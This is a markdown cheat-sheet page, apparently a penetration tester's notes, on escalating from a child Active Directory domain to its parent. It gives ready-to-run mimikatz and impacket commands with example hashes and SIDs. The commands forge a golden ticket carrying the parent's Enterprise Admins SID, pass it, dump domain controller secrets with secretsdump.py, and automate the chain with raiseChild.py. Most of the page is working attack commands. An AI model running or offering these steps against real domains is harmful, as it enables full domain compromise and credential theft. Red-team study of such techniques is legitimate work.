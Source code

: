 ```yaml
---
title: Domain Trust Hopping
tags:
  - activedirectory
  - domaintrust
enableToc: "true"
---
```

### Child-Parent Domain Escalation
This attack made possible since there is no security boundary between domains. Hence we could forge a golden ticket that contains _extra sid_ of a parent domain's _Enterprise Admins_. Below are the requirements to perform this attack:

| Name | Value |
| --- | ----------- |
| Child domain krbtgt hash | `833ef1dcc490f88a8f4a8a00859736de ` |
| Child domain SID | `S-1-5-21-3263068140-2042698922-2891547269` |
| Child domain FQDN | child.domain.local |
| Parent domain EA SID | `S-1-5-21-378720957-2217973887-3501892633-519` |

1. Forge a [Golden Ticket](#golden-ticket) that contains _extra sid_ of the parent domain's Enterprise Admins.

```css
# windows
mimikatz# kerberos::golden /user:Administrator /domain:child.domain.local [/ntlm|/aes256]:833ef1dcc490f88a8f4a8a00859736de /sid:S-1-5-21-3263068140-2042698922-2891547269 /sids:S-1-5-21-378720957-2217973887-3501892633-519 /ptt

# linux
ticketer.py -nthash 833ef1dcc490f88a8f4a8a00859736de -domain-sid S-1-5-21-3263068140-2042698922-2891547269 -domain child.domain.local -extra-sid S-1-5-21-378720957-2217973887-3501892633-519 Administrator
```

2. Use the ticket to perform Pass The Ticket (PTT) and win!. Ensure to use FQDN if you encounter any errors. _Note that if you ran mimikatz command with `/ptt` flag already does the following step. Hence you might want to skip this step_

```bash
export KRB5CCNAME=Administrator.ccache
secretsdump.py child.domain.local/Administrator@dc01.domain.local -just-dc -k -no-pass
```

Above steps could be automated with [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py) if you obtain a privileged account (i.e. Domain Admin). _-debug flag is <3_

```bash
raiseChild.py -target-exec dc-1.domain.local child.domain.local/domainadm -hashes :2e8a408a8aec852ef2e458b938b8c071 -debug
```